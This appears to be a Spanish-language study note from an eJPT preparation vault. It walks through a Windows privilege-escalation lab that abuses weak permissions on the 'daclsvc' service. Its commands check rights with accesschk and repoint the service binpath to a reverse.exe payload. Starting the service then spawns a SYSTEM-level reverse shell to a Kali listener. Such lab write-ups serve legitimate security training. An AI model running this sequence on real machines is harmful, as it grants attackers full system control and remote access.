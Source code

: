 
- Use accesschk.exe para verificar los permisos de la cuenta de "usuario" en el servicio "daclsvc:

```
C:\PrivEsc\accesschk.exe /accepteula -uwcqv user daclsvc
```
Tenga en cuenta que la cuenta de "usuario" tiene el permiso para cambiar la configuración del servicio ( SERVICE_CHANGE_CONFIG ).

- Consulte el servicio y tenga en cuenta que se ejecuta con privilegios de SISTEMA ( SERVICE_START_NAME ):

```
sc qc daclsvc
```

- Modifique la configuración del servicio y configure BINARY_PATH_NAME ( binpath ) en el ejecutable reverse.exe que creó:

```
sc config daclsvc binpath= "\"C:\PrivEsc\reverse.exe\""
```

- Inicie un oyente en Kali y luego comience el servicio para generar una carcasa inversa que funcione con privilegios de SISTEMA:

```
net start daclsvc
```

enlace:
[[Preparacion-Ejpt]]
[[Herramientas]]
[[Service Exploits - Insecure Service Executables]]
[[Service Exploits - Unquoted Service Path]]
[[Generate a Reverse Shell Executable]]